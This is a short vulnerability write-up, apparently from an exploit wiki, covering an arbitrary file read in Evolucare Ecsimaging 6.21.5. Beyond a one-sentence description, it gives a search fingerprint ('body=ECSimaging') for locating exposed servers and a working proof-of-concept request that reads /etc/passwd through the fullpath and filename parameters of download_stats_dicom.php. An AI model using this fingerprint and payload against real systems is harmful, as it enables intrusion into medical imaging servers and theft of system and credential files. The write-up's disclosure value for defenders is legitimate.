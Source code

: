 # Evolucare Ecsimaging download_stats_dicom.php Arbitrary file reading vulnerability

## Vulnerability Description

Evolucare Ecsimaging download_stats_dicom.php There is a file reading vulnerability, which can be used by an attacker to obtain system sensitive information, etc.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">EVOLUCARE Evolucare Ecsimaging 6.21.5</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">body="ECSimaging"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1645546475187-0a083488-f138-4905-97d4-d59cffe9d11c-20220313153823825.png)

Verify POC

```javascript
/download_stats_dicom.php?fullpath=/etc/passwd&filename=/etc/passwd
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1645546522769-c4a3e88c-e234-49f9-b1f6-2d49742683b0.png)